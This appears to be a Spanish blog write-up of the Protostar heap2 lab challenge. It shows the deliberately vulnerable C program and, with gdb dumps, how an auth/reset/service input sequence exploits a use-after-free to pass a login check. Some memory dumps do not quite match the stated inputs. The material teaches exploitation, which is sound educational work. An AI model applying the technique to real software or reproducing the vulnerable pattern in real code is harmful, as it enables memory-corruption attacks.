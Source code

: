 ```yaml
---
layout: post
title: protostar heap2 - UAF (Use-After-Free)
author: GuxFiz
date: 2023-01-21
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, Heap, UAF]
image: /assets/img/heap2/waifu4.jpg
---
```

Este desafio es una introduccion una tecnica llamada Use-After-Free la cual basicamente ocurre cuando se hace referencia a la memoria despues de que haya sido liberada
{:.lead}


## Analizando el binario y explotacion

El codigo que nos proveen es este:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
 
struct auth {
  char name[32];
  int auth;
};
 
struct auth *auth;
char *service;
 
int main(int argc, char **argv)
{
  char line[128];
 
  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);
 
      if(fgets(line, sizeof(line), stdin) == NULL) break;
       
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```
Vemos que el programa se queda en un bucle infinito gracias a ```while(1)```, ademas recibe 4 comandos: auth, reset, service y login.

Primeramente se esta declarando una estructuta llamada ```auth``` la cual tiene dos variables:

```c
struct auth {
  char name[32];
  int auth;
};
```
En la cual ```name``` es una arreglo de caracteres de 32 bytes.

De ahi nos vamos al primer if:

```c
if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
```
En el cual si el input es ```auth```, le asignaremos memoria con ```malloc()```, y el resto del input es tomado por la variable ```name``` de ```struct auth```

En el segundo if:

```c
if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
```
Lo que hace aqui es liberar memoria de el objeto ```auth``` 

En el tercer if:

```c
if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
```
Lo que hace es tomar el resto de la entrada y le asigna memoria con ```strdup```, la cual esta devuelve un puntero

Y el ultimo if:

```c
if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
```

Lo que hace es realizar una verificacion si el ```auth struct``` tiene un valor igual que 0.

Para resolver el desafio lo que hacer que hacer es pasar la condición de que auth->auth sea un valor que no sea cero, ya que en ninguna parte del código se le asigna un valor a auth->auth.

Asi que para resolver esta desafio tenemos que mostrar: ```you have logged in already!```

Aqui lo que se me ocurre hacer es asignar memoria con ```auth```, luego liberar le memoria con ```reset``` y despues dar un input usando el comando ```service```, lo suficientemente grande para para sobreescribir ```auth->auth```, esto hara que el programa intente acceder a ```auth struct``` pero ahora su memoria se libero y luego se sobreescribio con lo que le metimos con ```service``` y ahora ```auth->auth``` es diferente de 0

### Visualizandolo en gdb

Lo primero es ver el contenido de la memoria de auth cuando tiene un valor asignado a ```auth->name```, osea cuando se ingresa el comando ```auth```

Esto lo hare poniendo en breakpoint en ```0x08048a01``` que es donde se hace lo que dije arriba

Primeramente podemos ver como en ```EAX``` se almacena nuestro input:

```*EAX  0x804c818 ◂— 'GuxFiz\n'```

Y si mostramos el contenido del registro ```EAX``` podemos ver algo como esto:

```eax            0x804c818           134531096```

La memoria asignada por ```malloc()``` esta ubicada en ```0x804c818``` el cual se guardo en ```EAX``` que es el valor de retorno de ```malloc()``` que contiene nuestro input

Sin embargo, si mostramos unos cuantos bytes por debajo del valor de retorno de ```malloc()```, podemos ver esto:

```
pwndbg> x/20xb $eax-8 
0x804c810:	0x00	0x00	0x00	0x00	0x11	0x00	0x00	0x00
0x804c818:	0x63	0x34	0x72	0x74	0x61	0x0a	0x00	0x00
0x804c820:	0x00	0x00	0x00	0x00
```

Aqui quiero destacar el ```0x11```, el encabezado del ```chunk``` muestra que solo hay 16 bytes asignados (```0x00000011```), donde el bit LS es un indicador que indica que se ha asignado el fragmento anterior, (esto se conoce como la flag ```PREV_INUSE```), en lugar de los bytes necesario para ```auth struct``` , esto es por que en la línea 25, la llamada ```malloc()``` obtiene el tamaño del puntero con el mismo nombre que la estructura, y debido a que cada puntero tiene un tamaño de 4 bytes, ```malloc()``` asigna 4 bytes más los 8 bytes adicionales para el encabezado.

Ademas tambien podemos ver nuestro input el cual es:

```0x63	0x34	0x72	0x74	0x61```

Ahora es momento de saber que pasa si hacemos un ```reset``` y despues un ```login```

```
pwndbg> x /20xb $eax-8 
0x804c000:  0x00    0x00    0x00    0x00    0x11    0x00    0x00    0x00 
0x804c008:  0x00    0x00    0x00    0x00    0x0a    0x00    0x00    0x00 
0x804c010:  0x00    0x00    0x00    0x00    0xf1
```
Aqui ya se puso interesante la cosa, el objeto del heap esta alli (de ```0x11``` a ```0xf1``` el cual ```0xf1``` es llamado ```top chunk```), pero nuestro input ya no esta, entonces ahora veremos que pasa si creamos un nuevo objeto en el heap usando ```service``` pero pasandole un tamaño mas grande que 16 bytes, esto lo podemos hacer ya que la memoria despues de ```free()``` esta disponible para volverla a asignar:

```
[ auth = 0x804c818, service = (nil) ]
service AAAAAAAAAAAAAAAAAA
```

Podemos ver como se asigno en el espacio anterior, osea en ```auth```, esto es ya que tiene la misma direccion: ```0x804c818```, pero eso no es todo, tambien logramos sobreescribir ```auth->auth``` gracias a ```service``` , esto lo podemos ver si mostramos unos cuantos bytes desde ```0x804c818```:

```
pwndbg> x /64xb 0x804c818
0x804c818:	0x20	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c820:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c828:	0x61	0x61	0x61	0x0a	0x00	0x00	0x00	0x00
0x804c830:	0x00	0x00	0x00	0x00	0xd1	0x07	0x00	0x00
0x804c838:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c840:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c848:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c850:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```
Podemos ver como en la direccion ```0x804c828``` que es la de ```auth->auth``` ahora contiene ```0x61	0x61	0x61``` de mas


Y ahora aun que el objeto del heap se libero, el puntero a ```auth->auth``` no se anulo, y aun se usa, y dará como resultado un valor diferente de 0, asi que si continuamos la ejecucion vemos como ya obtuvimos la flag:

```
pwndbg> c
Continuing.
you have logged in already!
```

Y si fue como explotamos un UAF basico aprovechandonos de una sobreescritura con ```service``` para usar usar un ```chunk``` liberado anteriormente el cual ahora es llamado ```free chunk```

Eso ha sido todo, y tranquilo si no llegaste a entender lo que pasaba, por que ni yo ni nadie entiende estas cosas a la primera, pero con tiempo y diciplina se puede lograr. Realmente no me gustaria que te frustraras por algo asi, tu puedes. Gracias por leer ❤

